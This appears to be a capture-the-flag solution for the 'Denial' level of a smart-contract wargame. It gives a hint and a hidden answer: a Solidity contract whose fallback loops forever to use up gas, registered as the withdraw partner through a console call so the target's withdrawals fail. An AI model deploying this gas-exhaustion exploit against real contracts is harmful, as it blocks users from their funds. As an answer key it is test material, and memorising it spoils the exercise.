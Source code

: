 # Denial

**HINT:** Look at the ```withdraw``` function and how it works(think gas)

<details>
<summary>Answer</summary>
<p>

```
pragma solidity ^0.6.0;
contract Attack {
    
    fallback() payable external {
        while(true){
            
        }
    }
    
}
```

Then set ```.setWithdrawPartner``` as your contract address

```js
await contract.setWithdrawPartner('Your_Contract_Address')
```
</p>
</details>